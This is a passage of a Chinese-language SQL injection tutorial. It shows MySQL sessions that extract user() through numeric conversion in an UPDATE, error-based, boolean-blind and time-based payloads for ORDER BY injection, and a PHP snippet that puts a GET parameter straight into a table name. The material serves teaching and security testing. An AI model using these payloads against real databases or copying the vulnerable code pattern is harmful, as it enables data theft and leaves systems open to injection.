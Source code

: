 **那么我们可以利用查询的数据转化为10进制,然后进行运算,拿到我们计算的结果,在进行转化回去即可**

```mysql
mysql> update users set password=''+conv(hex(substr(user(),1 + (1-1) * 8, 6)), 16, 10);
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
+----+----------+-----------------+
| id | username | password        |
+----+----------+-----------------+
|  1 | admin    | 125822936825964 |
+----+----------+-----------------+
1 row in set (0.00 sec)

mysql> select unhex(conv(125822936825964, 10 ,16));
+--------------------------------------+
| unhex(conv(125822936825964, 10 ,16)) |
+--------------------------------------+
| root@l                               |
+--------------------------------------+
1 row in set (0.00 sec)
```

## 1.8 order by后的注入

### 1.8.1 报错注入

**`1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))`**

### 1.8.2 bool盲注

**`order by IF((bool),1,(select 1 union select 2))`**

### 1.8.3 延时盲注

**不推荐，因为每条数据都会执行延时，能用其他方法就不使用延时。**
**`order by IF(1,sleep(3),0);`**

**两条数据延时了6秒**

## 1.9 表名可控注入

### 1.9.1 表名不完全可控且DESC的表名含有identifier quote,SELECT的表名不含identifier quote

```mysql
mysql_connect("localhost","root","root");
mysql_query("use b2cshop");
$table = $_GET['table'];
mysql_query("desc `shop_{$table}`") or die("DESC 出错:".mysql_error());
$sql = "select * from shop_{$table} where 1=1";
echo $sql;
echo "<br><br><br><br><br><br><br>";
var_dump(mysql_fetch_array(mysql_query("$sql")));
echo mysql_error();
```
